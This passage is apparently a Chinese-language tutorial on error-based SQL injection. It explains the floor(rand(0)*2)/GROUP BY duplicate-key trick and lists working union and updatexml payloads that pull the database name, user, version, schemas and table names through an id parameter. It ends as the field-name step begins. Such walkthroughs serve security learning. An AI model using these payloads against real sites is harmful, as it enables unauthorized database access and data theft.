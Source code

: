 group by要进行两次运算，第一次是拿group by后面的字段值到虚拟表中去对比前，首先获取group by后面的值；第二次是假设group by后面的字段的值在虚拟表中不存在，那就需要把它插入到虚拟表中，这里在插入时会进行第二次运算，

由于rand函数存在一定的随机性，所以第二次运算的结果可能与第一次运算的结果不一致，但是这个运算的结果可能在虚拟表中已经存在了，那么这时的插入必然导致主键的重复，进而引发错误。

​	(1) 在输入id值不会查询带数据库内容，但是id=1'时有报错信息，可以初步判断这是一个报错注入

​	(2) 与union一样，我们上来先order by这里以三个字段为例

​	(3) 然后对id值进行报错获得数据库名  (由于报错注入只显示一条结果，所以需要用limit语句)

​		附上语句:

```
id=0' union select 1,2,3 from(select count(*),concat((select concat(version(),0x3a,database(),0x3a,user(),0x3a) limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select user()),0x7e),1)--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select database()),0x7e),1)--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select version()),0x7e),1)--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 0,1),0x7e),1)--+
```

​	(4)对表名的获取

​		附上语句:

```
id=0' union select 1,2,3 from (select count(*),concat((select concat(table_name,0x3a) from information_schema.tables where table_schema=database() limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a--+
```

​		或者

```
id=' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema=database() limit 0,1),0x7e),1)--+
```

​	(5)字段名的获取

​		附上语句:
